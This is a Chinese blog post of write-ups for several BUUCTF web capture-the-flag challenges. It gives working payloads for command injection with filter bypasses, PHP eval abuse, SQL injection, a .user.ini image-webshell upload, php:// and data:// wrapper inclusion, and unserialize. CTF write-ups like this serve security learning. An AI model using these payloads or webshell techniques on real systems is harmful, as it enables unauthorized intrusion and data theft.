<!--yml
category: 未分类
date: 2022-04-26 14:33:40
-->

# BUUCTF-Web题解（一）_flying_bird2019的博客-CSDN博客_buuctfweb第一题

> 来源：[https://blog.csdn.net/flying_bird2019/article/details/111249695](https://blog.csdn.net/flying_bird2019/article/details/111249695)

# ping ping ping

参考其他wp:
[链接](https://www.jianshu.com/p/8739f603672a)

执行系统命令
先输入：?ip=127.0.0.1;ls
输出： flag.php index.php

?ip=127.0.0.1;cat flag.php
fxck your space!
过滤了空格
空格可以用

${IFS}

$IFS$1 //$加其他数字都可以

<

<>

{cat,flag.php}

%09
代替

?ip=127.0.0.1;cat,flag.php

fxck your flag!
flag被过滤
读一下index.php

```
/?ip=
|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "

";
  print_r($a);
}

?> 
```

根据网上得题解
可以使用如下payload：

```
?ip=127.0.0.1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh 
```

还有一种（windoxs不行，但是本地的kali可以）

/?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php

# Easy Calc

查看源代码，找到一个calc.php

```
<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {
                        die("what are you want to do?");
                }
        }
        eval('echo '.$str.';');
}
?> 
```

？num=3;phpinfo()

可以看到被静止的命令执行函数
这里可以发现scandir()、file_get_contenes、show_source、include函数没有禁止
因此找到flag文件
? num=3;var_dump(scandir(chr(47)))


num=var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))


# PHP



# upload

[文件上传漏洞总结](https://blog.csdn.net/weixin_34088838/article/details/94607178)


菜刀连接

# BabySQL（报错注入）

select and where 等被过滤，复写绕过即可，如：seselectlect
flag不在当前的数据库里
因此先要查数据库名
然后再查表名，列名
字符串大于32位，需要substr函数
最终


# CheckIn

这道题给了源码

```
<?php

  $userdir = "uploads/" . md5($_SERVER["REMOTE_ADDR"]);
  if (!file_exists($userdir)) {
  mkdir($userdir, 0777, true);
  }
  file_put_contents($userdir . "/index.php", "");
  if (isset($_POST["upload"])) {
  $tmp_name = $_FILES["fileUpload"]["tmp_name"];
  $name = $_FILES["fileUpload"]["name"];
  if (!$tmp_name) {
  die("filesize too big!");
  }
  if (!$name) {
  die("filename cannot be empty!");
  }
  $extension = substr($name, strrpos($name, ".") + 1);
  if (preg_match("/ph|htacess/i", $extension)) {
  die("illegal suffix!");
  }
  if (mb_strpos(file_get_contents($tmp_name), "<?") !== FALSE) {
  die("&lt;? in contents!");
  }
  $image_type = exif_imagetype($tmp_name);
  if (!$image_type) {
  die("exif_imagetype:not image!");
  }
  $upload_file_path = $userdir . "/" . $name;
  move_uploaded_file($tmp_name, $upload_file_path);
  echo "Your dir " . $userdir. ' <br>';
  echo 'Your files : <br>';
  var_dump(scandir($userdir));
  } 
```

分析源码，上传文件过滤了ph/htacess文件
这里需要用到另一个上传配置文件.user.ini
[.user.ini文件原理](https://wooyun.js.org/drops/user.ini%E6%96%87%E4%BB%B6%E6%9E%84%E6%88%90%E7%9A%84PHP%E5%90%8E%E9%97%A8.html)
总而言之，就是可以在以上文件中配置，使得目录下的其他php文件能包含你上传的图片马
上传shell.jpg

上传.user.ini


菜刀连接

# EasyMD5

sql语句在返回的包里

这里可以进行sql注入
当一个值的md5值的十六字符二进制形式为’or’+不为0的数字+任意值
可进行sql注入

这里找一个特殊值：ffifdyop


passwprd=’'or’6’永远为真，可以绕过
接下来两关均可用数组绕过

# NiZhuanSiWei

主要考php伪协议

```
<?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?> 
```

有三个绕过，前两个用伪协议，最后一个反序列化
第一个用data://或者php://input写入的数据为welcome to the zjctf
data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=
第二个读取useless.php源代码
php://filter/read=convert.base64-encode/resource=useless.php
第三个基础的反序列化
O:4:“Flag”:1:{s:4:“file”;s:8:“flag.php”;}
[php伪协议应用](https://www.cnblogs.com/zzjdbk/p/13030717.html)

该图片出自以上博客